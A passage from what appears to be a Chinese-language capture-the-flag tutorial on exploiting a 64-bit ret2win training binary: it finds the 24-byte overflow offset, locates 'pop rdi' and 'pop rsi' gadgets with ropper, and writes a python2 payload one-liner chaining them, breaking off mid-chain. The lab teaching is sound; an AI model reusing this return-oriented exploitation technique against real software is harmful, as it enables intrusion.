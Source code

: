 注意，由于在x86架构里，读取地址是由低到高的，所以这里的字符串是gaaahaaa

我们只需要复制前四位即可

![在这里插入图片描述](https://img-blog.csdnimg.cn/ff069c539eae471cb6002c1c949e9ac1.png)

说明我们要覆盖rip原本的返回地址并控制，就需要24个字符+想让程序跳转执行的地址

现在我们写一个小脚本，首先hacked函数的地址在
```
0x0000000000401142
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/0f534347047c4896b3ee0f049090b611.png)

然后程序缓冲区的区间是24个字符

## 关于64位寄存器的知识点
如果不想看得云里雾里，我推荐去看看我写的使用arm进行汇编语言编程系列


64位程序将要对比的值存入rdi和rsi寄存器里，在这图中也可以看到相对应的操作

![在这里插入图片描述](https://img-blog.csdnimg.cn/72451b87129941e6ae2c0306aa153fc2.png)



![在这里插入图片描述](https://img-blog.csdnimg.cn/86d2fc7876e04a05a52ae6b7887082bc.png)

在64位寄存器中，有两个寄存器需要知道，rdi寄存器和rsi寄存器，rdi寄存器用于第一个参数传递，而rsi是第二个参数传递，我们要把对比的值放入这两个寄存器里，就需要参数传递，64位比32位要麻烦许多

## 构造ROP链
我们要找到这些特殊的寄存器就需要ropper这个工具，这个工具的用处就是寻找指定操作指令的地址
```
apt install ropper  //安装ropper  
ropper --file ret2win_params --search "pop rdi"  //从内存中弹出值到rdi寄存器中
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/9259b129b97c446ea9d77f8761ff2296.png)

这个地址是执行pop rdi操作的
```
0x000000000040124b
```


然后继续补全我们的脚本0xdeadbeefdeadbeef
```
python2 -c 'print "A" * 24 + "\x4b\x12\x40\x00\x00\x00\x00\x00" + "\xef\xbe\xad\xde\xef\xbe\xad\xde"'
//从内存中弹出并存放到rdi寄存器里的值就是我们需要对比的字符deadbeefdeadbeef
```

程序对比时还有一个参数，所以我们还需要找到pop rsi指令的地址


```
ropper --file ret2win_params --search "pop rsi"  //从内存中弹出值到rsi寄存器中
```
